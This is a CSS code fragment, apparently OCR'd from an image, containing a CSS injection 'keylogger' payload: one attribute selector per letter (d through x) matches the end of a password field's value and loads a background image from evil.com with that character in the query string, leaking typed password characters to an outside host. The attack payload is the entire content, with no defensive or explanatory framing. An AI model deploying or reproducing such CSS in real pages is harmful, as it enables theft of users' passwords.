 ```css
#password[value$="d"] {
  background-image: url("http://evil.com/?c=d");
}
#password[value$="e"] {
  background-image: url("http://evil.com/?c=e");
}
#password[value$="f"] {
  background-image: url("http://evil.com/?c=f");
}
#password[value$="g"] {
  background-image: url("http://evil.com/?c=g");
}
#password[value$="h"] {
  background-image: url("http://evil.com/?c=h");
}
#password[value$="i"] {
  background-image: url("http://evil.com/?c=i");
}
#password[value$="j"] {
  background-image: url("http://evil.com/?c=j");
}
#password[value$="k"] {
  background-image: url("http://evil.com/?c=k");
}
#password[value$="l"] {
  background-image: url("http://evil.com/?c=l");
}
#password[value$="m"] {
  background-image: url("http://evil.com/?c=m");
}
#password[value$="n"] {
  background-image: url("http://evil.com/?c=n");
}
#password[value$="o"] {
  background-image: url("http://evil.com/?c=o");
}
#password[value$="p"] {
  background-image: url("http://evil.com/?c=p");
}
#password[value$="q"] {
  background-image: url("http://evil.com/?c=q");
}
#password[value$="r"] {
  background-image: url("http://evil.com/?c=r");
}
#password[value$="s"] {
  background-image: url("http://evil.com/?c=s");
}
#password[value$="t"] {
  background-image: url("http://evil.com/?c=t");
}
#password[value$="u"] {
  background-image: url("http://evil.com/?c=u");
}
#password[value$="v"] {
  background-image: url("http://evil.com/?c=v");
}
#password[value$="w"] {
  background-image: url("http://evil.com/?c=w");
}
#password[value$="x"] {
  background-image: url("http://evil.com/?c=x");
}
```